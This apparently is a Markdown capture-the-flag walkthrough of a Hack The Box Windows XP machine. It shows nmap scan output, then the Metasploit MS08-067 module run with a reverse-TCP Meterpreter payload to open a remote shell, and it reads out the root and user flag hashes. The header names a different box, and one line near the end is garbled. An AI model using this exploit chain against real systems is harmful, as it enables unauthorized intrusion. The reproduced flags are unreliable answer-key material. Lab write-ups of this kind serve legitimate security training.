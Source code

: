 # How to solove ?

## add Lame to /etc/hosts
sudo vim /etc/hosts

## scan on nmap 
`nmap -sC -sV -sT -Pn  10.10.10.4`  

<details><summary>nmap 実行結果</summary>   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-09 20:07 JST
Nmap scan report for 10.10.10.4
Host is up (0.28s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h57m38s, deviation: 1h24m50s, median: 4d23h57m38s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:b3:17 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-02-14T15:05:08+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.39 seconds
</details>

###  Summary
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
### googling "windows xp microsoft-ds exploit"
MS08-067 Microsoft Server Service Relative Path Stack Corruption

```
msf6 > search MS08-067 

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi

msf6 > use exploit/windows/smb/ms08_067_netapi
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > show options 

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.159    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST tun0
LHOST => tun0
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.11:4444 
[-] 10.10.10.4:445 - Exploit failed [unreachable]: Rex::ConnectionTimeout The connection timed out (10.10.10.4:445).
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.11:4444 -> 10.10.10.4:1047) at 2021-02-09 20:27:43 +0900

meterpreter > cd /
meterpreter > dir
[-] Error running command dir: NoMethodError undefined method `[]' for nil:NilClass
meterpreter > type
[-] Unknown command: type.
meterpreter > pwd
C:\
meterpreter > ls
[-] Error running command ls: NoMethodError undefined method `[]' for nil:NilClass
meterpreter > search -f root.txt
Found 1 result...
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
meterpreter > type "c:\Documents and Settings\Administrator\Desktop\root.txt"
[-] Unknown command: type.
meterpreter > cat "c:\Documents and Settings\Administrator\Desktop\root.txt"
993442d258b0e0ec917cae9e695d5713


meterpreter > cat "c:\Documents and Settings\Administrator\Desktop\root.txt"
993442d258b0e0search -f user.txt
Found 1 result...
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
meterpreter > cat "c:\Documents and Settings\john\Desktop\user.txt"
e69af0e4f443de7e36876fda4ec7644f
meterpreter > 

```

